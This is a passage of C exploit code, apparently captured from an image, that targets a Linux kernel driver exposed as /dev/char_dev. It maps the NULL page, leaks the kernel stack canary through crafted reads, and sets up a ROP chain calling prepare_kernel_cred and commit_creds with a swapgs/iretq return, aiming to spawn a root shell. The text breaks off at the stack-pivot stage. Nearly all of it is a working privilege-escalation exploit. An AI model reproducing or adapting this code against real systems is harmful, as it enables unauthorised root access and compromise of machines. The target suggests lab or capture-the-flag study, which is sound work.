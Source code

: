 const uint64_t xchg = 0xffffffff8110f940; // # xchg rax, rdi; or al, 0; pop rbp; ret;
const uint64_t iretq = 0xffffffff81039a1b;
const uint64_t pop_rsp = 0xffffffff81020360;
const uint64_t swapgs = 0xffffffff81c00a34 + 22;

uint64_t chain[] = {
    pop_rdi,
    0,
    prepare_kernel_cred,
    xchg,
    0,
    commit_creds,
    swapgs,
    0,
    0,
};

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state(void)
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3;\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags), "=r"(user_sp)
        :
        : "memory");
};

void drop_shell() {
    system("/bin/sh");
};


int main()
{
    puts("{!} Stage 1: alloc mem on NULL");
    char *mem = mmap(0, 0x1000, 7, 50, -1, 0);
    printf("{+} Allocated memory address: %p\n", mem);

    if (mem != NULL) {
        puts("{-} Allocation failed!");
        return -1;
    }

    puts("{!} Stage 2: leak kernel stack-cookie");
    int leak = open("/dev/char_dev", O_RDONLY);
    int rop = open("/dev/char_dev", O_RDONLY);
    int f_tmp = open("/dev/char_dev", O_RDONLY);
    close(f_tmp);

    memset(mem, 'X', 47);
    mem[47] = '\n';
    char s[256] = {0};

    read(leak, s, 48);
    memset(mem, 'X', 48);
    mem[48] = '\n';

    read(leak, s, 96);
    memcpy(&canary, &s[1], 8);

    printf("{+} Kernel stack canary: 0x%llx\n", canary);

    puts("{!} Stage 3: stack pivoting and ROP-chain execution");
    memset(mem, '\x00', 48);